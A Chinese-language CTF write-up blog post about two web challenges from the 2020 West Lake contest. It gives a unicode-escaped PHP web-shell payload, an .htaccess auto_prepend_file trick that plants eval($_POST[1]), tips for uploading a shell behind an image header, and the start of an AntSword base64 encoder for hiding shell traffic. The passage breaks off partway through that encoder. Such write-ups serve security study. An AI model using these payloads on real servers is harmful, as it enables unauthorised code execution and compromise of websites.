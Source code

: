 ```yaml
---
title: 西湖丢脸大赛
date: 2020-10-09 20:57:56
tags: CTF
---
```


## 西湖挑战杯WEB赛后总结

### 一、easyjson

![](https://i.loli.net/2020/12/27/uxaepyF56mz81jN.png)

这是题目一打开的模样，像极了爱情，我感觉我好像又可以了。

wp1：

```
xff设置ip 获取目录
filename=index.php可过check
关键代码转unicode，然后进行getshell(具体见博客GETshell大法)
{"\u0063\u006f\u006e\u0074\u0065\u006e\u0074":"<?\u0070\u0068\u0070\u0020\u0024\u005f\u0047\u0045\u0054\u005b\u0030\u005d\u0028\u0024\u005f\u0047\u0045\u0054\u005b\u0031\u005d\u0029\u003b?>"}
```

这道题不亏是easyjson，但是这个还有一个解法2

wp2：

```
通过unciode绕过写入htaccess的自包含木马php_value auto_prepend_fi\le .htaccess#<?php eval($_POST[1])?># \ 然后注释下一行，然后getshell，readflag
```

这里既然提到了文件包含，就不得不深深地探究一波这个神秘的文件`.htaccess`详情看另外一篇文章

### 二、NewUpload

因为我在后续的复现过程中，并没有成功地getshell，所以我就简单利用一下大佬的原话对这里进行回复

```
换行+一个图片文件头就可以shell，至于怎么蚁剑怎么连上去，自己随便写一个编码器(如下)，然后流量倒到burp，全局修改一下ua
```

![img](https://wulidecade.cn/2020/10/08/2020%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91%E9%83%A8%E5%88%86web-wp/1.png)

```
**
 * php::base64编码器
 * Create at: 2020/10/08 11:54:20
 */

'use strict';

/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  // 生成一个随机变量名
  let randomID = `_0x${Math.random().toString(16).substr(2)}`;
  // 原有的 payload 在 data['_']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
```